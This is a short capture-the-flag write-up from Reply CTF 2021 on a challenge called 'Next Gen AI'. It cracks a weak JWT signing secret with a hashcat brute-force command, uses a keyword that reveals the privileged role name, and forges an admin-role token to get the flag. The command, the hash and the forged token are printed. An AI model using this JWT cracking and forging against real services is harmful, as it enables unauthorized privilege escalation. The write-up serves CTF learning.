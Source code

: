 ```yaml
---
title : Reply CTF 2021
notetype : feed
date : 01-11-2021
---
```


# Next Gen AI

In the game, we are able to communicate in a chat with a naive AI.
We can notice that a JWT is used to authenticate the user.

Since the JWT was quite short, we tried to crack the hash with hashcat, with `replyhash.txt` :

`8dc06319a53e37d9281d0bd9f2660a98d8b907e40d9824de8db49452ca1d903c:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoidXNlciJ9`

where before the `:` we have the hash in hex (decode from base64url!) and then the base64url of the JWT.

Command for hashcat:
`./hashcat.bin -m 1450 -a 3 replyhash.txt`

Output of hashcat:
`8dc06319a53e37d9281d0bd9f2660a98d8b907e40d9824de8db49452ca1d903c:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoidXNlciJ9:chicken`

So the password is `chicken`. Now we are able to forge valid JWT.


By analyzing the code, we see that some keyword were blocked. For example requests with  `text=allroles`in the body.
If we send such a request with body `text=allroles` the response contains the users: `user,superb0ss`.

We can now forge a JWT with `superb0ss` as role:

```
{"typ":"JWT","alg":"HS256"}.
{"role":"superb0ss"}.
HS256("chicken",base64urlencode({"typ":"JWT","alg":"HS256"}).base64urlencode({"role":"superb0ss"}))
```

Which is signed to `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoic3VwZXJiMHNzIn0.fJCNV7l5CIfHAvWJD93MrKzScH8ne67LcQyB6uycAcg`

By sending a request with this JWT to the server we retrieve the flag:

`{FLG:You4reSm4rt3rTH4nMyAI}`

gg. aMan
